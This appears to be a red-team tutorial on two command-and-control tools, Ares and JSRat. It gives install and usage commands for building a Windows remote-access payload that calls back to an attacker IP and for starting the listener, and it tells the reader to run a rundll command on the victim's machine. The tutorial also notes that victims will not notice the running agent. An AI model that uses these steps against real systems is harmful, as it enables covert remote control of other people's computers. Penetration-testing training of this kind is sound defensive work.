# Red Teaming Squad : Command & Control

Command and control (C2) systems are used to manage remote sessions from compromised hosts. From a command and control program interface, a security tester or attacker can send commands directly from the program or access a remote shell. During a penetration test, a security tester can deploy a remote access terminal (RAT) on a compromised host that dials back to a command and control server.


## C2 with Web Interface : Ares

Ares is a Python Remote Access Tool and is made of two main programs:
1. A command and control server, which is a Web interface to administer the agents
2. An agent program, which is run on the compromised host, and ensures communication with the CNC


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/sweetsoftware/Ares
cd Ares
pip install -r requirements.txt
./wine_setup.sh
```

### Usage

First of all you have to change the server address to attacker's IP address.

<kbd></kbd>

Now create payload(exe file because target system is windows) using ```./builder.py -p Windows --server http://192.168.43.250:8080 -o temp.exe``` command and transfer the payload to victim's machine.

<kbd></kbd>

Now initiate the server database using ```./ares.py initdb``` and then start the server using ```./ares.py runserver -h 192.168.43.250 -p 8080 --threaded``` command.

<kbd></kbd>

Access the web server through browser.

<kbd></kbd>

Run the payload.

<kbd></kbd>

Observe the session on server.

<kbd></kbd>

Now attacker can interact with target machine through the web interface.

<kbd></kbd>

One of the benefit of ares tool is that victim won't notice that any unwanted application is running on his/her machine. If victim checks the running processes then he/she will find the exe file running on the machine. 

<kbd></kbd>

For more use cases, you can use ```./builder.py --help``` command or you can visit this [URL](https://github.com/sweetsoftware/Ares).


## C2 with Javascript : JSRat

This tool is developed in JavaScript. It allows the payload to connect to the listening server. These features were created in python which allows the server to be both Linux and Windows friendly. The basic protocol used is HTTP for the server to work.


### Installation

You can install "Ares" using following command:

```
git clone https://github.com/Hood3dRob1n/JSRat-Py
```

<kbd></kbd>

### Usage

First of all you have to start the server at attacker's IP address using ```./JSRat.py -i 192.168.43.250 -p 4545```.

<kbd></kbd>

You can find these files by accessing the server from your or victim’s browser. If you look closely, there is a code given on the server. This code allows you to execute a rundll attack. Copy this code and paste it in the command prompt of the victims’ PC.

<kbd></kbd>

As soon as the command is executed you will have a session.

<kbd></kbd>

Now you can run any commands on victim's machine.

<kbd></kbd>

For more use cases, you can use ```./JSRat.py --help``` command or you can visit this [URL](https://github.com/Hood3dRob1n/JSRat-Py).

